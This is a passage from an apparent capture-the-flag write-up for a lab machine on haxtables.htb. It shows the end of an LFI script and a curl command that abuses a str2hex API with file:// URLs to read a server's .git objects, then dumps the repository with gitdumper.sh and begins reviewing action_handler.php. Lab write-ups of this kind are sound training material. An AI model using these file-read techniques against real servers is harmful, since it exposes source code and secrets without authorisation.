 ````
        lf = input("[+]FILE >")
        lfi(lf)

main()
````
Use the above script and now our LFI is successfull . 

![image](https://user-images.githubusercontent.com/114393219/219811187-4e61ea25-7cfd-4da4-b38c-d5fec5363821.png)

Now I tried to read the index.php for the second subdomain that we found while subdomain enumeration ``image.haxtable.htb`` .
![image](https://user-images.githubusercontent.com/114393219/219811947-640962b9-3769-4181-8856-641151158258.png)

Then I took a look at ``utils.php`` and there are several functions that make use of the Git binary.

![image](https://user-images.githubusercontent.com/114393219/219812329-0cf9268a-e669-42b6-8054-255911662b01.png)

After analyzing the code of utils.php, I discover that it makes use of the git tool. This leads us to the conclusion that it is possible that a .git directory exists in the ``/var/www/image/`` directory With this finding, we try to access to key files within that directory via the LFI. It turned out that if the ``.git`` directory was present, the next step would be to download that directory to continue the analysis. <br>
We will use ``gitdumper.sh`` script to dump the git directory and we can analyze it locally . <br>
Here is the link for this script https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh <br>

Now in the script, Add the following parameters to the curl query: ``application/json`` will be the content-type in the header, and a binary file containing the str2hex action values and the file's address URL will be delivered together with the data supplied in the ``--data-binary`` argument: The Haxtables API is available at http://api.haxtables.htb/v3/tools/string/index.php as /var/www/image/.git/$objname. ``jq`` will be used to parse the response and extract only the pertinent information, and xxd will be used to transform the hexadecimal output into a binary file that will be saved to ``$target``. <br>
OR <br>
Just replace the curl line with this below line :) .
````
curl -X POST -H 'Content-Type: application/json' --data-binary "{\"action\": \"str2hex\", \"file_url\": \"file:///var/www/image/.git/$objname\"}" 'http://api.haxtables.htb/v3/tools/string/index.php' | jq .data | xxd -r -p > "$target"
````

Now dump the git directory using the following command
````./gitdumper.sh  http://image.haxtables.htb/.git/ image````

We will use GitKraken, a Git repository visualization tool, to more clearly and visually analyze the repository.
<br><br>
Here is the link for GitKraken https://www.gitkraken.com/  OR you can download directly using snapstore.
<br><br>
After analyzing the repository with GitKraken, we note that there is an interesting file called ``action_handler.php``
<br><br>
![image](https://user-images.githubusercontent.com/114393219/219817773-81e99ff0-9a1f-43a6-abff-a0a4473bdd85.png)

## Analyzing Action_Handler.php

An example of PHP code that contains a file supplied in a Request parameter named "page" is shown below. The script initially includes the "utils.php" file before checking to see if the "page" GET parameter is present. If it does, the parameter value is assigned to a "page" variable, which includes the file indicated there. A "No page specified!" message is printed if the "page" option is missing.

````